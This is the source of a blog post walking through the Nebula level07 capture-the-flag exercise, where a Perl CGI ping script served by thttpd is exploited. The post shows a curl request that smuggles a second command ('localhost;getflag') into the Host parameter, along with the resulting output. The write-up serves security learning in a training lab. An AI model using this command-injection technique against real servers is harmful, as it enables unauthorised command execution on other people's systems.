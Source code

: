 ```yaml
---
layout: post
title: "Expanding of variables"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 07](http://exploit-exercises.com/nebula/level07) Agenda**: "The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server."
<br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; "*It was the Perl's script, the one who swooned over the network flow.*"

<center>
	<img src="/images/2015-04-10-expanding_of_variables/tail.jpg">
</center>

<br />

As usual, started with target account's home investigation.
{% highlight sh linenos %}
level07@nebula:/home/flag07$ ls -la
.........
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf

level07@nebula:/home/flag07$ cat ./thttpd.conf | less

# This file is for thttpd processes created by /etc/init.d/thttpd.
.........
# Specifies an alternate port number to listen on.
port=7007
.........
# Specifies a directory to chdir() to at startup. This is merely a convenience
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
.........
# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi
.........
{% endhighlight %}

It appears that we have running [thttpd](http://www.acme.com/software/thttpd/thttpd_man.html) server on 7007 port with specified config from flag07 home folder (which in turns will execute all *.cgi scripts from there). 

{% highlight sh linenos %}
level07@nebula:/home/flag07$ ps aux | grep http
flag07 1187 ......... /usr/sbin/thttpd -C /home/flag07/thttpd.conf
flag16 1189 ......... /usr/sbin/thttpd -C /home/flag16/thttpd.conf
{% endhighlight %}

Indeed! And not the only one =).

From "*[index.cgi](https://exploit-exercises.com/nebula/level07/)*" source we can see that it takes value of "*Host*" argument, passes it as input to ping utility and print out the result. So let's make request with [curl](http://linux.die.net/man/1/curl) tool and use some kind of [separator](/ctf, nebula/2015/02/02/arbitrary_program_execution/) to inject the favour "*getflag*" command. Don't forget about [URL encoding](https://en.wikipedia.org/wiki/Percent-encoding).

{% highlight sh linenos %}
$curl --data-urlencode "Host=localhost;getflag" 192.168.1.3:7007/index.cgi
<html><head><title>Ping results</title></head><body><pre>PING localhost 
(127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=17.3 ms
64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=17.2 ms
64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=39.0 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2012ms
rtt min/avg/max/mdev = 17.251/24.558/39.073/10.263 ms
You have successfully executed getflag on a target account
{% endhighlight %}

Line #11, indicates the end of destination point. BTW "*192.168.1.3*" is address of Nebula virtual machine in my local network (use [ifconfig](http://linux.die.net/man/8/ifconfig) to find out for your case).

P.S. You could also try to deal with request from web browser or [wget](http://stackoverflow.com/questions/9830242/what-is-o-option-means-for-wget) [util](http://linux.die.net/man/1/wget) + some online [url encoder](http://www.url-encode-decode.com/) (or at least [wiki](https://en.wikipedia.org/wiki/Percent-encoding) percent-encoding of reserved characters table) as helper for clear argument performing.